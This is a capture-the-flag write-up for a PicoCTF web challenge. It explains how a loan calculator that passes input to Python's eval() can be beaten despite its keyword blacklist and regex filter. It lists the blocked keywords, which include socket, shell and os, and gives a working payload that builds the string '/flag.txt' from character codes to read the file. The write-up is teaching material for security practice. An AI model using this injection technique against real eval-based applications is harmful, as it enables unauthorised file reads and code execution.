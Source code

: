 # Bypassing Regex-Based Security Filters in PicoCTF

In this challenge, we explore how weak input filtering combined with dangerous Python functions like `eval()` can lead to full code execution. The task revolves around a vulnerable loan calculator that attempts to secure user input using keyword blacklisting and regex filters—but it still leaves a door open.

---

## Challenge Overview

* **Category:** Web Exploitation
* **Difficulty:** Intermediate
* **Concepts:** Python `eval()`, regex bypass, code injection

---

## Understanding the Setup

The web app provides a **loan calculator** that processes user input using Python’s `eval()` function. The developers realized this was risky and attempted to lock it down.

### Security Measures Implemented

1. **Keyword Filtering**

   The application blocks known dangerous keywords:

   ```
   os, eval, exec, bind, connect, python, socket, ls, cat, shell
   ```

2. **Regex Filtering**

   A regex is applied to block encoded or suspicious input patterns:

   ```python
   r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\/]|\.\.'
   ```

   This blocks:

   * Hex values like `0x41`
   * Unicode escapes like `\u0041`
   * URL encoding (`%20`, `%2f`)
   * File extensions like `.txt`
   * Path traversal like `../`

At first glance, it seems secure. But with `eval()` still in play, we can get creative.

---

## The Goal

We need to read the contents of `/flag.txt`, but we can’t use slashes, dots, or import libraries. Direct access is blocked:

```python
open('/flag.txt').read()         # Blocked
open('../flag.txt').read()       # Blocked
import os; os.system('cat ...')  # Blocked
```

---

## Bypassing the Filters

The trick is to **dynamically construct the string `/flag.txt`** without using any forbidden characters.

### The Working Payload

```python
open(''.join([chr(x) for x in [47, 102, 108, 97, 103, 46, 116, 120, 116]])).read()
```

### How It Works

* `[47, 102, 108, 97, 103, 46, 116, 120, 116]`: ASCII codes for `/flag.txt`
* `chr(x) for x in [...]`: Converts numbers to characters
* `''.join([...])`: Joins them into a valid file path
* `open(...).read()`: Reads the flag file

Despite all the filters, this payload passes and reveals the flag.

---



![image](https://github.com/user-attachments/assets/3c2d4f87-b683-46b6-95bf-e89b96326ac8)


